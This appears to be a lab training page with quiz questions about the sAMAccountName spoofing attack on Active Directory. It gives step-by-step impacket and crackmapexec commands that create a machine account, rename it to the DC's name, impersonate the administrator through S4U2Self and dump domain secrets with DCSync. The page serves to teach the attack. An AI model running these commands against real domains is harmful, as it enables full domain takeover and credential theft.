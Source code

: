 #SAMAccountNameSpoofing

This attack revolves around tricking the KDC into thinking an account different from the DC is actually the DC account. This way, an attacker can impersonate a DC in a S4U2Self Kerberos extension and retrieve highly privileged service tickets for any DC service.


To perpetrate this attack, one must use previously retrieved user credentials, and this user must be able to create a computer account. Users can create up to 10 computer accounts in AD by default. The attacker can check how much computer accounts they can create using CME:
```
crackmapexec ldap captain.polaris.local -u skyler.white -p Password123 -d polaris.local -M MAQ
```
It seems that Skyler can create up to 10 computer accounts. Let's create a new one:
```
addcomputer.py -computer-name 'samaccountname$' -computer-pass 'ComputerPassword' -dc-host captain.polaris.local -domain-netbios POLARIS 'polaris.local/skyler.white:Password123'
```
Now, the attacker has access to this new account as well. Each account can modify its own SPNs. In this attack, it's necessary to clear out every SPN associated with the newly created account before changing its name:
```
#in the krbrelayx dir
python3 addspn.py --clear -t 'samaccountname$' -u 'polaris.local\skyler.white' -p 'Password123' 'captain.polaris.local'
```

Now, we'll rename the computer account's name to the DC's computer account name, without a trailing '$'. Then, we'll retrieve a TGT that will reference this new name. Once we get the TGT we'll change the computer account name back to its original:

```
#in the samaccountname_scripts dir
python3 ./renameMachine.py -current-name 'samaccountname$' -new-name 'CAPTAIN' -dc-ip 'captain.polaris.local' polaris.local/skyler.white:Password123
getTGT.py -dc-ip 'captain.polaris.local' 'polaris.local'/'CAPTAIN':'ComputerPassword'
python3 ./renameMachine.py -current-name 'CAPTAIN' -new-name 'samaccountname$' -dc-ip 'captain.polaris.local' polaris.local/skyler.white:Password123
```

Now, the attacker can use this TGT and confuse the KDC into believing that the TGT actually belongs to the DC computer account. The attacker can then impersonate the DC in order to obtain a service ticket to a DC service as any user. The attacker will then retrieve a service ticket to the SMB service for the administrator user, and then use this ticket to compromise the domain through a DCSync attack using the secretsdump.py script.

```
export KRB5CCNAME=/home/ubuntu/samaccountname_scripts/CAPTAIN.ccache
python3 ./getST.py -self -impersonate 'administrator' -altservice 'CIFS/captain.polaris.local' -k -no-pass -dc-ip 'captain.polaris.local' 'polaris.local'/'CAPTAIN'
#now we have a service ticket impersonating the administrator to the DC's SMB service. At this point the domain can be compromised
export KRB5CCNAME=/home/ubuntu/samaccountname_scripts/administrator@CIFS_captain.polaris.local@POLARIS.LOCAL.ccache
secretsdump.py -k -no-pass -just-dc -dc-ip 'captain.polaris.local' @'captain.polaris.local'
```

!!! question
    How can the attacker retrieve a service ticket to the DC's SMB service as the Administrator? Through what mechanism?
??? success "Answer"
    The attacker retrieves this ticket using the S4U2Self mechanism, which the DC account is allowed to perform. The attacker makes the KDC believe that it holds a TGT pertaining to the DC, and thus it is eligible to execute the S4U2Self and retrieve a service ticket to a DC service, while impersonating the administrator.
!!! question
    How did the attacker tricked the KDC into believing that the TGT that the attacker holds actually pertains to the DC?
??? success "Answer"
    By first changing a owned computer account name to CAPTAIN (without a '$' at the end). Asking for a TGT, which will reference the CAPTAIN account, and then changing the account name back to the original. Finally, use the TGT, and since there's no CAPTAIN account, the KDC believes the TGT actually belongs to CAPTAIN$, which is the DC's computer account.